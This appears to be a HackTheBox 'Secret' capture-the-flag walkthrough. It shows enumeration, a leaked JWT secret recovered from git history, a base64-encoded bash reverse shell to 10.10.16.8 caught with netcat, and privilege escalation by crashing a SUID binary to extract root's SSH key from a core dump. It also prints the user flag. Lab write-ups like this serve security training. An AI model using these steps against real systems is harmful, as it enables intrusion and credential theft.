







# Secret - HackTheBox

## 1. Enumeration

### Nmap Initial Scan

```
┌──(root💀kali)-[~/htb/secret]
└─# nmap -sC -sV -oN nmap_scan 10.129.93.191
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-04 00:59 EDT
Nmap scan report for 10.129.93.191
Host is up (0.44s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 97:af:61:44:10:89:b9:53:f0:80:3f:d7:19:b1:e2:9c (RSA)
|   256 95:ed:65:8d:cd:08:2b:55:dd:17:51:31:1e:3e:18:12 (ECDSA)
|_  256 33:7b:c1:71:d3:33:0f:92:4e:83:5a:1f:52:02:93:5e (ED25519)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
|_http-title: DUMB Docs
|_http-server-header: nginx/1.18.0 (Ubuntu)
3000/tcp open  http    Node.js (Express middleware)
|_http-title: DUMB Docs
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.28 seconds
```

Web application running on port 80 and port 3000 are the same. It is reverse proxied.


There is link to download the source. Let's download it.


### User Registration




Registration successful.


### User Login




Login successful.


While extracted the previously downloaded zip,  we can find a git directory.

```
┌──(root💀kali)-[~/htb/secret/local-web]
└─# ls -la
total 116
drwxrwxr-x   8 root root  4096 Sep  3  2021 .
drwxr-xr-x   3 root root  4096 Jun  4 02:26 ..
-rw-rw-r--   1 root root    72 Sep  3  2021 .env
drwxrwxr-x   8 root root  4096 Jun  4 04:09 .git
-rw-rw-r--   1 root root   885 Sep  3  2021 index.js
drwxrwxr-x   2 root root  4096 Aug 13  2021 model
drwxrwxr-x 201 root root  4096 Aug 13  2021 node_modules
-rw-rw-r--   1 root root   491 Aug 13  2021 package.json
-rw-rw-r--   1 root root 69452 Aug 13  2021 package-lock.json
drwxrwxr-x   4 root root  4096 Sep  3  2021 public
drwxrwxr-x   2 root root  4096 Sep  3  2021 routes
drwxrwxr-x   4 root root  4096 Aug 13  2021 src
-rw-rw-r--   1 root root   651 Aug 13  2021 validations.js

```


We can see the the git log by, 

```
┌──(root💀kali)-[~/htb/secret/local-web]
└─# git log                                          
commit e297a2797a5f62b6011654cf6fb6ccb6712d2d5b (HEAD -> master)
Author: dasithsv <dasithsv@gmail.com>
Date:   Thu Sep 9 00:03:27 2021 +0530

    now we can view logs from server 😃

commit 67d8da7a0e53d8fadeb6b36396d86cdcd4f6ec78
Author: dasithsv <dasithsv@gmail.com>
Date:   Fri Sep 3 11:30:17 2021 +0530

    removed .env for security reasons

commit de0a46b5107a2f4d26e348303e76d85ae4870934
Author: dasithsv <dasithsv@gmail.com>
Date:   Fri Sep 3 11:29:19 2021 +0530

    added /downloads

commit 4e5547295cfe456d8ca7005cb823e1101fd1f9cb
Author: dasithsv <dasithsv@gmail.com>
Date:   Fri Sep 3 11:27:35 2021 +0530

    removed swap

commit 3a367e735ee76569664bf7754eaaade7c735d702
Author: dasithsv <dasithsv@gmail.com>
Date:   Fri Sep 3 11:26:39 2021 +0530

    added downloads

commit 55fe756a29268f9b4e786ae468952ca4a8df1bd8
Author: dasithsv <dasithsv@gmail.com>
Date:   Fri Sep 3 11:25:52 2021 +0530

    first commit
                 
```

There is the suspecting one - "removed .env for security reasons".

```
┌──(root💀kali)-[~/htb/secret/local-web]
└─# git show 67d8da7a0e53d8fadeb6b36396d86cdcd4f6ec78
commit 67d8da7a0e53d8fadeb6b36396d86cdcd4f6ec78
Author: dasithsv <dasithsv@gmail.com>
Date:   Fri Sep 3 11:30:17 2021 +0530

    removed .env for security reasons

diff --git a/.env b/.env
index fb6f587..31db370 100644
--- a/.env
+++ b/.env
@@ -1,2 +1,2 @@
 DB_CONNECT = 'mongodb://127.0.0.1:27017/auth-web'
-TOKEN_SECRET = gXr67TtoQL8TShUc8XYsK2HvsBYfyQSFCFZe4MQp7gRpFuMkKjcM72CNQN4fMfbZEKx4i7YiWuNAkmuTcdEriCMm9vPAYkhpwPTiuVwVhvwE
+TOKEN_SECRET = secret
                         
```


Got the secret token. We add this token to jwt.





Send it using burp and we can see the response with - 

```
{
"role":{
    "role":"you are normal user",
    "desc":"albinr"
    }
}
```








```
┌──(root💀kali)-[~/htb/secret/local-web]
└─# echo -n "bash  -i >& /dev/tcp/10.10.16.8/1234  0>&1" | base64 -w 0                   1 ⨯
YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuOC8xMjM0ICAwPiYx  
```


```
┌──(root💀kali)-[~/htb/secret]
└─# nc -lvnp 1234                           
listening on [any] 1234 ...
connect to [10.10.16.8] from (UNKNOWN) [10.129.93.191] 58312
bash: cannot set terminal process group (1143): Inappropriate ioctl for device
bash: no job control in this shell
dasith@secret:~/local-web$ id
id
uid=1000(dasith) gid=1000(dasith) groups=1000(dasith)
dasith@secret:~/local-web$ 

```

got the shell


```
dasith@secret:~$ ls
local-web  user.txt
dasith@secret:~$ cat user.txt
ae431ca06c47b7fd76925e209d9e57a2
dasith@secret:~$ 

```

## 2. Privilege Escalation

Let' search for suid bit files.

```
dasith@secret:~$ find / -perm -4000 2>/dev/null
/usr/bin/pkexec
/usr/bin/sudo
/usr/bin/fusermount
/usr/bin/umount
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/chsh
/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/opt/count
/snap/snapd/13640/usr/lib/snapd/snap-confine
/snap/snapd/13170/usr/lib/snapd/snap-confine
/snap/core20/1169/usr/bin/chfn
/snap/core20/1169/usr/bin/chsh
/snap/core20/1169/usr/bin/gpasswd
/snap/core20/1169/usr/bin/mount
/snap/core20/1169/usr/bin/newgrp
/snap/core20/1169/usr/bin/passwd
/snap/core20/1169/usr/bin/su
/snap/core20/1169/usr/bin/sudo
/snap/core20/1169/usr/bin/umount
/snap/core20/1169/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core20/1169/usr/lib/openssh/ssh-keysign
/snap/core18/2128/bin/mount
/snap/core18/2128/bin/ping
/snap/core18/2128/bin/su
/snap/core18/2128/bin/umount
/snap/core18/2128/usr/bin/chfn
/snap/core18/2128/usr/bin/chsh
/snap/core18/2128/usr/bin/gpasswd
/snap/core18/2128/usr/bin/newgrp
/snap/core18/2128/usr/bin/passwd
/snap/core18/2128/usr/bin/sudo
/snap/core18/2128/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core18/2128/usr/lib/openssh/ssh-keysign
/snap/core18/1944/bin/mount
/snap/core18/1944/bin/ping
/snap/core18/1944/bin/su
/snap/core18/1944/bin/umount
/snap/core18/1944/usr/bin/chfn
/snap/core18/1944/usr/bin/chsh
/snap/core18/1944/usr/bin/gpasswd
/snap/core18/1944/usr/bin/newgrp
/snap/core18/1944/usr/bin/passwd
/snap/core18/1944/usr/bin/sudo
/snap/core18/1944/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core18/1944/usr/lib/openssh/ssh-keysign
dasith@secret:~$ 

```

We can see an unusual file there in /opt directory (/opt/count)


```
dasith@secret:/opt$ ./count
Enter source file/directory name: /etc/shadow

Total characters = 1187
Total words      = 36
Total lines      = 36
Save results a file? [y/N]: y
Path: /tmp/shadow

```


After examining the code.c file we can see the funtion that it performs. 

<mark>prctl(PR_SET_DUMPABLE, 1);</mark> . It is enabling the ability to do coredump.


#### What is coredump?

A core dump is a file that gets automatically generated by the Linux kernel after a program crashes. This file contains the **memory, register values, and the call stack of an application at the point of crashing**.


Make an ssh key for the user dasith and login to ssh on another terminal. While running the binary count, kill the process from other terminal to crash the process. So that the data will be dumped to /var/crash directory. We can view the content of the file from the dumped file.

```
dasith@secret:/opt$ ./count
Enter source file/directory name: /root/.ssh/id_rsa

Total characters = 2602
Total words      = 45
Total lines      = 39
Save results a file? [y/N]: Segmentation fault (core dumped)
dasith@secret:/opt$ 
```


The other terminal,

```
dasith@secret:~$ cd /var/crash
dasith@secret:/var/crash$ ps -ef | grep count
root         826       1  0 04:48 ?        00:00:00 /usr/lib/accountsservice/accounts-daemon
dasith     31689    1794  0 15:48 pts/0    00:00:00 ./count
dasith     31692   31425  0 15:48 pts/1    00:00:00 grep --color=auto count
dasith@secret:/var/crash$ kill -11 31689
dasith@secret:/var/crash$ ls
_opt_count.1000.crash

```

We can see _opt_count.1000.crash, dumped data of /etc/shadow.


To unpack the crash report,

```
dasith@secret:/var/crash$ apport-unpack _opt_count.1000.crash /var/crash/ssh
dasith@secret:/var/crash$ ls
_opt_count.1000.crash  report  ssh
dasith@secret:/var/crash$ cd ssh
dasith@secret:/var/crash/ssh$ ls
Architecture  DistroRelease        ProblemType  ProcEnviron  Signal
CoreDump      ExecutablePath       ProcCmdline  ProcMaps     Uname
Date          ExecutableTimestamp  ProcCwd      ProcStatus   UserGroups

```


We can find the content of ssh key in CoreDump. That can be extracted from the file by,

```
dasith@secret:/var/crash/ssh$ grep BEGIN out -A37 > root_key
```


Got the private key of root, now we can login using the key,

```
dasith@secret:/var/crash/ssh$ ssh -i root_key root@secret
```

Login success and can find the root flag in the home directory.


